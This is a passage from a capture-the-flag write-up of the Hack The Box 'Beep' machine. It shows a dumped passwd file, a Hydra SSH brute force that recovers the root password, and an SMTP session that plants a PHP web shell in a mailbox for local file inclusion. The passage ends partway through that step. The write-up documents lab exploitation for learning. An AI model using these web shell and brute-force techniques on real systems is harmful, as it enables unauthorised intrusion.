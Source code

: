 ```bash
root:x:0:0:root:/root:/bin/bash
sync:x:5:0:sync:/sbin:/bin/sync
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
spamfilter:x:500:500::/home/spamfilter:/bin/bash
fanis:x:501:501::/home/fanis:/bin/bash
```

Gathering users from the passwd file and passwords from the amportal.conf file we can generate files for hydra.

```bash
(boolean㉿kalibox)[~/htb/beep-pwnd]$ hydra -L users -P passwords ssh://10.10.10.7                             

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-04-14 18:31:15
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 18 login tries (l:6/p:3), ~2 tries per task
[DATA] attacking ssh://10.10.10.7:22/
[22][ssh] host: 10.10.10.7   login: root   password: jEhdIekWmdjE
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-04-14 18:31:29

```

Just a little FYI to login via you need to prepends the following to the command as it uses a deprecated cipher.

```bash
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 root@10.10.10.7 
```



## Boom! Box done!



## Method 2 LFI & Email Hijacking (Is that the right name?)

This is new to me so the notes will be light.

Firstly send an email via telnet with a php script to execute commands.

```bash
(boolean㉿kalibox)[~/htb/beep-pwnd]$ telnet 10.10.10.7 25                                                                                                                                                      1 ⨯
Trying 10.10.10.7...
Connected to 10.10.10.7.
Escape character is '^]'.
mail from:boolean@htb.eu    

220 beep.localdomain ESMTP Postfix
250 2.1.0 Ok
500 5.5.2 Error: bad syntax
rcpt to:asterisk@localhost
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
Subject: Exploit Script
<?php echo system($_REQUEST['cmd']); ?>      
```